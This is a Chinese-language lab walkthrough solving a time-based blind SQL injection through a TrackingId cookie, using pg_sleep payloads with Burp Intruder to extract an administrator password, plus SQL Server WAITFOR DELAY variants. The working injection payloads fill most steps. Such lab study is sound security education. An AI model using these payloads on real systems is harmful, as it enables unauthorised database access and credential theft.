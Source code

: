# 题意
![](pic/5-1.png)

利用延时注入获取信息，并用administrator的密码登录。
# 解题思路
step1:验证可以延时注入
```
TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```
```
TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```
可以明显感受到第一条注入时会有延时

step2:判断是否存在administrator
```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

step3:确定密码位数
```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
还是用burpsuite的Intruder模块做。可以确定密码位数是20.

step3:确定密码
与之前两个lab不同的是，这里涉及到对是否提取出正确的字符的时间判断，因此需要监控每个请求花费的时间。为了使这个过程尽可能可靠，需要将Intruder攻击的线程设为1.
![](pic/thread1.png)
payload如下：
```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

返回结果如下：
![](pic/res.png)
按照response receive降序排列，数值较大的说明产生了延时，因此就是密码对应的字符。

得到的密码是：pl7yl1bcsij1eb79iyms
# 知识点
在数据库错误也不会造成response改变的情况下，就需要使用延时注入。因为SQL查询语句一般都被应用程序同步执行，延时sql语句的执行同样会延时http响应。可以借此推断注入条件的真假。一般来说，语句正确执行花费的时间会比报错要长。延时注入的语句跟数据库的类型有关。对于SQL Server，可以输入如下语句来测试条件真伪和延时注入：

```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

第一条语句不会触发延时注入，第二条会。

测试条件真伪可以用如下语句：
```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```